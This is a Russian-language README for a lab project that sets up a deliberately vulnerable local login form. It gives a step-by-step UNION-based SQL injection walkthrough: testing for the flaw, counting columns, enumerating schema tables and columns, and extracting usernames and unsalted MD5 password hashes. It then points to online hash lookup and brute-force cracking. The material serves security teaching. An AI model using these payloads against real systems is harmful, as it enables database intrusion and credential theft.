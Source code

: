 # SQLInjectionsAndHashPractise
Проект для практики по SQL 
инъекциям и подбора паролей, 
представленных в виде хешей.

Для запуска данного проекта потребуется:

1) Любая среда разработки под Java (JDK и JRE, версия java 7 и старше)

2) БД MySQL (использовавлась версия 5.6)

3) Любой apllication server (Для запуска использовался контейнер сервлетов Tomcat версии 8.0.18)

Подготовительный этап:

Перед запуском приложения необходимо испортировать схему в БД MySQL. Файл injection_practise_db_dump.sql.

Запуск и работа с прложением:

После запуска приложения переходим на localhost с указанием порта, на который мы развернули application server (или servlet's 
container). После открытия главной страницы приложения переходим по ссылке Example 1: Login form видим форму, предназначенную
для входа пользователя. Известно, что есть пользователь с логином user и паролем password, за которого можно войти в 
приложение и убедиться в его работоспособности (сообщение "Hello, user! Log out").

Задача:

Данная форма уязвима к SQL инъекциям. С их помощью следует получить список всех пользователей и хеши их паролей.
Далее необходимо определить пароль пользователя "admin" и войти в систему как администратор.

Возможный алгоритм решения:

  SQL инъекции:
  
	1)  Проверим наличие уязвимости к SQL инъекциям.
	(Ввести символ ' в поле Username, чтобы увидеть сообщение об ошибке);
	
	2)  Написать вилидный SQL запрос 
	(чтобы не было сообщения об SQL ошибке, например a' or '1' = ' )
	
	3)  Подбираем количество столбцов с помощью чисел: 
	
    	a' union select 1 from information_schema.TABLES where '1' = '1' or '1' = '
    	a' union select 1,2 from information_schema.TABLES where '1' = '1' or '1' = '
    	a' union select 1,2,3 from information_schema.TABLES where '1' = '1' or '1' = '
    	
  	4)  Попробовать узнать прочую информацию:
    	
    	a' union select 1,version(),3 from users where '1' = '1' or '1' = '
    	a' union select 1,user(),3 from users where '1' = '1' or '1' = '
    	a' union select 1,database(),3 from users where '1' = '1' or '1' = '
	
	5)  Зная название базы узнаем названием таблиц в ней:

	    a' union SELECT 1,TABLE_NAME,3 from information_schema.TABLES WHERE TABLE_SCHEMA = 'sql_injection_practise' or '1' = '
  
  	6)  Теперь надо узнать имена столбцов:
	
	    a' union SELECT 1,group_concat(COLUMN_NAME),3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'sql_injection_practise' AND TABLE_NAME = 'users' or '1' = '
	
	7)  Пытаемся получить содержимое таблицы users: 
	
	a' union select 1,2,3 from users where '1' = '1' or '1' = '
	
	8) Теперь можно достать информацию из базы о пользователе: 
    	
    	a' union select 1,nick,3 from users where '1' = '1' or '1' = '
    	a' union select 1,username,3 from users where '1' = '1' or '1' = '
    	a' union select 1,password,3 from users where '1' = '1' or '1' = '
	
	Прочие примеры:
	
	    Можно экспериментировать с условиями:
    	
	    	a' union select 1,username,3 from users where id_user = 1 or '1' = '
	    	a' union select 1,username,3 from users where id_user = 1 or true -- 
	    	a' union select 1,username,3 from users where id_user = 1 or true --  
	      
      Объединить несколько полей в одном:
	    	
	    	a' union select 1,group_concat(concat(username, 0x3a, password)),3 from users where '1' = '1' or '1' = '
	
  Определение пароля по значению хеш функции:
  
  Для определения пароля по его хеш функции следует:
  
  1) Определить, каким алгоритмом захеширован пароль (Подсказка: в данной работе использовавлся алгоритм md5 (без "соли"))
  2) Попробовать поискать хеш по базам хешей, например: http://www.md5online.org/md5-decrypt.html 
  3) Полный перебор (Например, программа Bars: http://3.14.by/ru/md5)
  
